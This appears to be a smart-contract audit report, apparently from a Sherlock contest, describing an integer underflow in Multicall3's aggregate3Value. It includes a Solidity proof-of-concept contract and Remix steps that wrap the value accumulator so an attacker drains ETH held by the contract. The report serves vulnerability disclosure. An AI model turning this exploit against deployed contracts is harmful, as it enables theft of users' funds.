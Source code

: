 mert_eren

high

# integer underflow

## Summary
in multicall.sol::aggregateV3value there is assumed that integer underflow will not be happened. However if allowfailure set true and use two call as first call with x value and other 2**256-x valaccumulator will be 0 (so msg.value will be zero but hacker can send x eth from contract) and transaction will be succeed. this can be used maliciously because anybody can be take staked token in contract for themselves. Moreover, other functions also payable and some of them dont send any value so there is highly chance to eth stake in contract (so there is high chance to attacker will steal staked eth).
## Vulnerability Detail
contract attack{
function hack(address x) external payable {
        Multicall3.Call3Value memory y;
        y.allowFailure=true;
        y.target=0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2;
        y.value=1e18;
        y.callData="";
        Multicall3.Call3Value memory z;
        z.allowFailure=true;
        z.target=msg.sender;
        z.value=2**256-1e18;
        z.callData="";
        Multicall3.Call3Value[] memory calls=new  Multicall3.Call3Value[](2);
        calls[0]=y;
        calls[1]=z;
        Multicall3(x).aggregate3Value(calls);
    }
}
pls first copy&paste multicall3.sol and after copy paste this contract in remix after that stuck 1 ether to multicall with any function (for example, use aggreagate with 1 ether with empty tuple). After that use attack::hack function it will show that transaction succeed and attecker will take this 1 ether.
## Impact
aggregateV3value can be underflow and malicious users can use it for steal staked eth.
## Code Snippet
https://github.com/sherlock-audit/2023-06-symmetrical/blob/main/symmio-core/contracts/facets/dev/multicall.sol#L158-L162
## Tool used
remix ide
Manual Review
![Screenshot from 2023-07-03 10-31-29](https://github.com/sherlock-audit/2023-06-symmetrical-merteren1234/assets/118080184/93dae2a7-5137-44b5-a357-701f3d78b821)


## Recommendation
using valaccumulator without uncheck.